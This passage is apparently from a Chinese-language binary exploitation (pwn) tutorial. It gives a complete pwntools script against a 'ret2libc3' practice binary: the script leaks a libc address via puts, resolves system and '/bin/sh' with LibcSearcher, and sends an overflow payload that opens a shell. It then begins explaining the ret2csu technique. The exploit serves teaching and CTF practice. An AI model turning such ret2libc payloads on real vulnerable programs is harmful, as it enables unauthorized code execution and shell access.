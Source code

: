 `exploit`如下:

```python
# coding=utf-8
from pwn import *
from LibcSearcher import *

sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 'aaaa', binsh_addr])
sh.sendline(payload)

sh.interactive()
```

<div align=center><img src="./images/36.png"></div>

## ret2csu
### 原理
在`64`位程序中, 函数的前`6`个参数是通过寄存器传递的, 但是大多数时候很难找到每一个寄存器对应的`gadgets`. 这时候我们可以利用`x64`下的`__libc_csu_init`中的`gadgets`. 这个函数是用来对`libc`进行初始化操作的, 而一般的程序都会调用`libc`函数, 所以这个函数一定会存在. 我们先来看一下这个函数(不同版本的这个函数有一定的区别):
